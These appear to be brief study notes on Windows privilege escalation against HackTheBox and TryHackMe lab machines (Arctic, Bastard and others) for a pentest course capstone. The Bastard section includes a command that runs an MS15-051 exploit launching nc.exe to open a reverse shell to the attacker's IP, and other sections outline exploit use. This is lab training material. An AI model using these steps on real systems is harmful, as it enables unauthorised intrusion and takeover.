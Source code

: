 Type in the file name bar:
```bash
c:\Windows\System32\*.*
all system32 files will appear
search For the **cmd.exe**
right click > open
whoami
```

> we are root


# Capstone

- 5 machines

	Arctic (HTB)
	
	Bastard (HTB)
	
	Alfred (THM)
	
	Bastion (HTB)
	
	Querier (HTB)



## Arctic
```bash
nothing new. 
enumeration...
a vulnerable service
searchsploit <service>
run and get a shell
then run something like powerup, windows_vulnerability_check whatever
vuln MS010-059 exploit, run > root
```

## Bastard
Basic PowerShell For Pentesters - https://book.hacktricks.xyz/windows/basic-powershell-fFor-pentesters

- This time we are gonna run Sherlock.ps1

Add this to the last line:
```bash
echo 'Find-AllVuns' >> Sherlock.ps1
```

> MS15-051 found.
search in For exploit in git or exploit-db

Send the ms15-051 exploit & nc.exe to the machine
then:
```bash
ms15-051.exe "nc.exe <kali ip> <port> -e cmd.exe"
# open a listener
```
